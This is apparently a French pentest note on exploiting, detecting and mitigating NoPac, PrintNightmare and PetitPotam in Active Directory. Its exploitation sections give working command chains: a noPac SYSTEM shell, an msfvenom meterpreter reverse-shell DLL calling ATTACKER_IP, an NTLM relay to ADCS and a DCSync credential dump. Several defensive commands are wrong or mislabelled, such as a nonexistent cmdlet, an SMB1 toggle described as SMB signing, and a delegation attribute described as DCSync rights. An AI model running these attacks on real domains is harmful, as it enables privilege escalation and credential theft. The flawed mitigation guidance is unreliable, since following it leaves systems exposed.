

Ce document détaille les vecteurs d'attaque, les méthodes de détection et les stratégies de remédiation pour les vulnérabilités **NoPac**, **PrintNightmare** et **PetitPotam** au sein d'un environnement **Active Directory**.



### Analyse des prérequis
L'exploitation réussie de ces vulnérabilités repose sur des conditions préalables spécifiques au sein du domaine :

| Vulnérabilité | Prérequis d'accès | Condition technique |
| :--- | :--- | :--- |
| **NoPac** | Compte utilisateur valide | `ms-DS-MachineAccountQuota` > 0 |
| **PrintNightmare** | Accès réseau au port 445/139 | Service **Spooler** activé sur la cible |
| **PetitPotam** | Accès réseau au port 445 | Accès à un serveur **ADCS** (Web Enrollment) |

### Logique de chaîne d'attaque (Chain of Attack)
L'exploitation suit généralement un flux logique visant l'élévation de privilèges :
1. **Accès initial** : Compromission d'un compte utilisateur standard (via phishing ou mot de passe faible).
2. **Exploitation** : Utilisation de **PetitPotam** pour forcer une authentification NTLM vers un serveur de relayage (ex: **ntlmrelayx.py**).
3. **Escalade** : Relayage vers **ADCS** pour obtenir un certificat machine, permettant ensuite une attaque **DCSync** (voir note : **DCSync Attack**).
4. **Persistance** : Injection de tickets **Kerberos** (voir note : **Kerberos Delegation**) pour maintenir l'accès.

## NoPac (CVE-2021-42278 & CVE-2021-42287)

L'attaque **NoPac** permet une escalade de privilèges intra-domaine en manipulant les attributs **sAMAccountName** d'un compte machine nouvellement créé pour usurper l'identité d'un **Domain Controller**.

> [!warning] Nécessité de privilèges de domaine
> L'exploitation nécessite un compte utilisateur valide disposant d'un quota de création de machine (**ms-DS-MachineAccountQuota** > 0).

### Détection avec BloodHound

```powershell
# Rechercher les modifications récentes des objets machine
Get-ADObject -Filter 'WhenCreated -ge "YYYY-MM-DD"' -Properties Name, ObjectClass, WhenCreated

# Vérifier les utilisateurs avec un MachineAccountQuota > 0
Get-ADObject -Filter * -Properties ms-DS-MachineAccountQuota | Select Name, ms-DS-MachineAccountQuota

# Vérifier si un compte utilisateur standard a obtenu une session sur un DC
Get-WmiObject -Class Win32_ComputerSystem | Select-Object UserName
```

### Mitigation

```powershell
# Désactiver la création de machines par les utilisateurs
Set-ADDefaultDomainSetting -Identity "NomDuDomaine" -Replace @{ "ms-DS-MachineAccountQuota"=0 }

# Auditer les changements de sAMAccountName
Get-ADObject -Filter * -Properties sAMAccountName | Sort-Object WhenChanged -Descending | Select-Object Name, sAMAccountName, WhenChanged
```

### Exploitation

```bash
# Scanner la vulnérabilité
sudo python3 scanner.py domain/user:password -dc-ip DC_IP -use-ldap

# Exploiter et obtenir un shell SYSTEM
sudo python3 noPac.py domain/user:password -dc-ip DC_IP -dc-host DC_HOST -shell --impersonate administrator -use-ldap
```

### Analyse des risques de stabilité
L'exploitation de **NoPac** peut entraîner des conflits d'objets dans l'annuaire AD si le compte machine créé entre en collision avec des objets existants. Il est recommandé de supprimer les comptes machines créés lors des tests.

### Méthodologie de nettoyage post-exploitation
1. Supprimer les comptes machines créés durant la phase d'exploitation via `Remove-ADComputer`.
2. Purger les tickets Kerberos en mémoire sur la machine d'attaque (`klist purge`).

## PrintNightmare (CVE-2021-34527 & CVE-2021-1675)

**PrintNightmare** exploite le service **Print Spooler** pour permettre l'exécution de code à distance avec des privilèges **SYSTEM**.

> [!danger] Risque de crash du service Spooler
> L'exploitation intensive peut entraîner l'instabilité ou l'arrêt du service **Spooler** sur la cible.

### Détection avec BloodHound

```powershell
# Rechercher les permissions GenericWrite ou GenericAll sur des serveurs d'impression
Get-ADObject -LDAPFilter "(servicePrincipalName=Print*)" -Properties Name, servicePrincipalName

# Vérifier les sessions sur un DC après exploitation
Get-WmiObject -Class Win32_Process -ComputerName "DC_IP" | Where-Object { $_.Name -like "*cmd.exe*" }
```

### Mitigation

```powershell
# Désactiver le Print Spooler sur les DCs
Stop-Service -Name Spooler -Force
Set-Service -Name Spooler -StartupType Disabled

# Restreindre les permissions d'impression via GPO
gpedit.msc # Computer Configuration -> Administrative Templates -> Printers -> Allow Print Spooler to accept client connections (Désactiver)
```

### Exploitation

```bash
# Vérifier si le Print Spooler est activé
rpcdump.py @DC_IP | egrep 'MS-RPRN|MS-PAR'

# Générer une charge utile DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=PORT -f dll > payload.dll

# Héberger la DLL
sudo smbserver.py -smb2support ShareName /path/to/payload.dll

# Exploiter PrintNightmare
sudo python3 CVE-2021-1675.py domain/user:password@DC_IP '\\ATTACKER_IP\ShareName\payload.dll'
```

### Analyse des risques de stabilité
Le crash du service **Spooler** est fréquent lors de l'injection de DLL malformées. Une surveillance des logs système (ID 7031/7034) est nécessaire pour identifier les redémarrages inopinés du service.

### Méthodologie de nettoyage post-exploitation
1. Supprimer la DLL déposée sur le partage SMB.
2. Restaurer le service **Spooler** si nécessaire via `Set-Service -Name Spooler -StartupType Automatic`.

## PetitPotam (CVE-2021-36942)

**PetitPotam** force un contrôleur de domaine à s'authentifier via **NTLM** vers un serveur contrôlé par l'attaquant, facilitant ainsi les attaques de type **NTLM Relay Attacks** vers les services **ADCS** (Active Directory Certificate Services).

> [!info] Impact critique de la désactivation de NTLM
> La désactivation de **NTLM** sur les contrôleurs de domaine bloque ce vecteur, mais peut impacter l'authentification des systèmes legacy.

### Détection avec BloodHound

```powershell
# Rechercher si un DC initie des connexions NTLM vers un serveur non autorisé
Get-WinEvent -FilterHashtable @{LogName='Security'; Id=4624} | Where-Object { $_.Properties[8].Value -eq 'NTLM' }

# Vérifier si un compte sans privilèges a obtenu Replicating Directory Changes
Get-ADUser -Filter * -Properties * | Where-Object { $_.msds-allowedtoactonbehalfofotheridentity -ne $null }
```

### Mitigation

```powershell
# Désactiver NTLM sur les DCs
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name "RestrictNTLMInbound" -Value 1

# Activer l'authentification SMB signée
Set-SmbServerConfiguration -EnableSMB1Protocol $false -Force
```

### Exploitation

```bash
# Lancer ntlmrelayx
sudo ntlmrelayx.py -debug -smb2support --target http://CA_HOST/certsrv/certfnsh.asp --adcs --template DomainController

# Lancer PetitPotam
python3 PetitPotam.py ATTACKER_IP DC_IP

# Récupérer le certificat et demander un TGT
python3 gettgtpkinit.py DOMAIN/DC_NAME$ -pfx-base64 CERTIFICATE_BASE64 dc01.ccache

# Utiliser secretsdump pour un DCSync
secretsdump.py -just-dc-user DOMAIN/administrator -k -no-pass "DC_NAME$"@DC_IP
```

> [!warning] Attention aux alertes SIEM
> L'utilisation de **secretsdump** pour effectuer un **DCSync** génère des événements critiques (ID 4662) détectables par les solutions de surveillance.

### Analyse des risques de stabilité
Le relayage NTLM peut provoquer des erreurs d'authentification sur les services ciblés (ADCS). Il est conseillé de tester le relayage sur des services non critiques avant de cibler le contrôleur de domaine.

### Méthodologie de nettoyage post-exploitation
1. Supprimer les fichiers `.ccache` générés.
2. Révoquer tout certificat émis par l'ADCS durant l'exercice via la console de gestion de l'autorité de certification.

## Vérification Globale

Les commandes suivantes permettent d'identifier les vecteurs d'attaque via **BloodHound** et les outils d'administration standard.

| Action | Commande |
| :--- | :--- |
| Lister sessions actives | `Get-NetSession -ComputerName "DC_IP"` |
| Identifier ACLs sensibles | `Get-ObjectAcl -ResolveGUIDs \| Where-Object { $_.ActiveDirectoryRights -match "GenericAll\|GenericWrite" }` |
| Lister comptes DCSync | `Get-DomainUser -Properties "msds-allowedtoactonbehalfofotheridentity"` |
| Vérifier MachineAccountQuota | `Get-DomainPolicy \| Select-Object -ExpandProperty SystemAccess` |
| Permissions réplication | `Get-ADUser -Filter * -Properties * \| Where-Object { $_.msds-allowedtoactonbehalfofotheridentity -ne $null }` |